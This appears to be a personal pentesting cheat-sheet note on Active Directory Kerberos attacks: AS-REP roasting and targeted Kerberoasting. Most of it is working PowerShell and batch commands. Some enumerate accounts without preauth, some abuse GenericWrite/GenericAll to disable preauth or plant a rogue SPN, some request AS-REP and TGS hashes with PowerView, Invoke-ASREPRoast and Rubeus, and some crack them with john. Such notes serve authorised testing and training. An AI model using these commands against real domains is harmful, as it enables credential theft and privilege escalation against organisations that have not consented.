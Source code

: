 ```yaml
---
tags:
  - privesc
cssclasses:
  - AS-REP
  - UAC
  - kerberos-preauth
---
```

If a user's UAC setting has "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute force it offline. With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well.

#### Enumerating accounts with preauth disabled

```powershell title:"Using Powerview"
Get-DomainUser -PreauthNotRequired -Verbose
```

```powershell title:"Using ActiveDirectory module"
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
#### Force disable Kerberos Preauth

```powershell title:"Enumerate the permissions for a group on ACLs and set the UAC to DoesNotRequirePreAuth"
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "groupname"}
Set-DomainObject -Identity userofthatgroup -XOR @{useraccountcontrol=4194304} -Verbose
Get-DomainUser -PreauthNotRequired -Verbose
```

```powershell title:"Request encrypted AS-REP for offline brute-force"
Get-ASREPHash -UserName username -Verbose
```

```powershell title:"Enumerate all users with Kerberos preauth disabled and request a hash"
Invoke-ASREPRoast -Verbose
```

```batch title:"Crack the AS-REP to obtain the user's password using john"
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
```

#### Leveraging permissions to change a user's SPN

- With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in domain).
- We can then request a TGS without special privileges. The TGS can then be [Kerberoasted](Kerberoasting).

```powershell title:"Enumerate the permissions for a group on ACLs using PowerView"
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "groupname"}
```

```powershell title:"Check if the user already has a SPN (PowerView)"
Get-DomainUser -Identity userofthatgroup | select serviceprinciplename
```

```powershell title:"Check if the user already has a SPN (Active Directory Module)"
Get-ADUser -Identity userofthatgroup -Properties ServicePrincipleName | select ServicePrincipleName
```

```powershell title:"Set a SPN for the user (must be unique for the domain) (Using PowerView)"
Set-DomainObject -Identity userofthatgroup -Set @{serviceprincipalname='service/serviceprovider'}
```

```powershell title:"Set a SPN for the user (must be unique for the domain) (Using ActiveDirectory Module)"
Set-ADuser -Identity userofthatgroup -ServicePrincipleNames @{Add='service/serviceprovider'}
```

```batch title:"Kerberoast that user"
Rubeus.exe kerberoast /outfile:targetedhashes.txt
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```


